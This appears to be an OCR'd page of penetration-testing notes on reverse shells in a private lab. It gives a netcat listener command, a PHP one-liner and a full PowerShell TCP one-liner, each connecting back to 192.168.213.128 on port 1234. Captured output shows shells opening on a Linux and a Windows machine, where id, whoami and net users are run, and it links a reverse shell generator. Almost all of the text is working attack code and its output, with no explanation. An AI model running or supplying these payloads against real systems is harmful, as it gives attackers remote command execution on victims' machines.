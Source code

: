 ```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
```

```
nahida@nahida-virtual-machine:~$ php -r '$sock=fsockopen("192.168.213.128",1234);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.213.128] from (UNKNOWN) [192.168.213.132] 50734
$ id
uid=1000(nahida) gid=1000(nahida) groups=1000(nahida),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$ whoami
nahida
```

[Reverse Shell Generator](https://www.revshells.com/)

```
┌──(root㉿kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
```

```
C:\Users\IEUser>powershell -nop -c "$client = New-Object System.Net.Sockets.TCPC
lient('192.168.213.128',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..
65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (
New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendbac
k = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path +
 '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($s
endbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
┌──(root㉿kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.213.128] from (UNKNOWN) [192.168.213.131] 49291
whoami
iewin7\ieuser
PS C:\Users\IEUser> net users

User accounts for \\IEWIN7

-------------------------------------------------------------------------------
Administrator            Guest                    IEUser                   
sshd                     sshd_server              
The command completed successfully.
```

